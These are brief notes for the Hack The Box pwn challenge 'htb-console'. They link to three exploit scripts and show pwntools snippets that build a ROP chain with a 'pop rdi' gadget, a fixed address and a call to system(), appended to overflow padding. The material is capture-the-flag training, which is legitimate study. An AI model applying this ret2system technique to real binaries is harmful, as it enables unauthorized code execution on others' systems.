 # notes for HTB challenge htb-console

Python pwn recon script for [htb-console](https://github.com/WoodenshoeNL/black-badge/blob/master/htb/challenges/ch-htb-console-recon.py)

Python pwn script for [htb-console](https://github.com/WoodenshoeNL/black-badge/blob/master/htb/challenges/ch-htb-console.py)


Python pwn script with rop chain for [htb-console](https://github.com/WoodenshoeNL/black-badge/blob/master/htb/challenges/ch-htb-console-rop.py)

## Use PWNtools ROP chain

Start ROP chain:

```python
rop = ROP(elf)
```

add address to gadget to chain with Raw:

```python
rop.raw(p64((rop.find_gadget(['pop rdi', 'ret']))[0]))
```

add address directly to ROP chain with Raw:

```python
rop.raw(p64(0x4040b0))
```

add syscal to ROP chain:

```python
rop.call(elf.symbols["system"])
```

add ROP chain to payload:

```python
payload = [
    b"A" * padding_length,
    rop.chain()
]

payload = b"".join(payload)
```
